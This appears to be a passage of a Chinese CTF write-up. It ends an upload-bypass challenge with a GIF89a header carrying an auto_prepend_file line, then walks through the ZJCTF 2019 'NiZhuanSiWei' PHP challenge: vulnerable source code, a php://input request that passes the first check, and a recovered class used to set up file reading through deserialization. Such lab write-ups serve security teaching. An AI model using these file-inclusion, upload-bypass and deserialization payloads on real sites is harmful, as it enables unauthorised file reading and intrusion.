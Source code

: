 ```
GIF89a
auto_prepend_file=2.png
```

## [ZJCTF 2019]NiZhuanSiWei

```php
 <?php  
$text = $_GET["text"];
$file = $_GET["file"];
$password = $_GET["password"];
if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        echo "Not now!";
        exit(); 
    }else{
        include($file);  //useless.php
        $password = unserialize($password);
        echo $password;
    }
}
else{
    highlight_file(__FILE__);
}
?> 
```

第一道防线

```
/?text=php://input

# POST
welcome to the zjctf
```

然后利用`include($file);` 读取 `useless.php` 源码，

得到

```php
<?php  

class Flag{  //flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
?>  
```
